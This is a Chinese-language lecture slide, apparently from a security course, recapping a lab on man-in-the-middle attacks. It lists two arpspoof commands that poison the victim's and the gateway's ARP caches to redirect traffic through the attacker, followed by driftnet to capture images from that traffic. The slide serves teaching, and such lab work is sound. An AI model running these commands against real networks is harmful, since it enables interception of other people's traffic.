

# 中间人攻击(上节课实验)
实例
用ARP毒化，重定向受害者的流量传送给攻击者
arpspoof -i eth0 -t 192.168.1.5 192.168.1.1

第二个ARP毒化攻击，使网关的数据重定向到攻击者的机器
arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
验证
driftnet -i eth0

3